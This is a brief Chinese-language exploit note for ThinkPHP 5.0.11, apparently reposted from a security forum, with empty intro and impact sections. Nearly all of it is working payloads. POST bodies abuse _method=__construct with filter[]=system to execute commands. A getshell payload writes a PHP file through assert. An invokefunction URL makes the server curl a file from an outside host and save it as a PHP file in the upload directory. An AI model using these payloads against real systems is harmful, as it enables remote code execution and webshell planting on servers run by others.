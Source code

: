 # Thinkphp 5.0.11

> 原文：[https://www.zhihuifly.com/t/topic/3150](https://www.zhihuifly.com/t/topic/3150)

# Thinkphp 5.0.11

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

post提交

```
http://www.0-sec.org/public/index.php?s=index/index/index `s=whoami&_method=__construct&method&filter[]=system

s=whoami&_method=__construct&method=POST&filter[]=system

s=whoami&_method=__construct&method=GET&filter[]=system

_method=__construct&method=GET&filter[]=system&get[]=whoami

c=system&f=calc&_method=filter` 
```

> getshell

```
POST `s=file_put_contents(‘zerosec.php’,’<?php phpinfo();’)&_method=__construct&method=POST&filter[]=assert` 
```

> 利用远程文件写入

```
http://www.0-sec.org/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][0]=curl https://www.hack.com/xxx.js -o ./upload/xxx.php 
```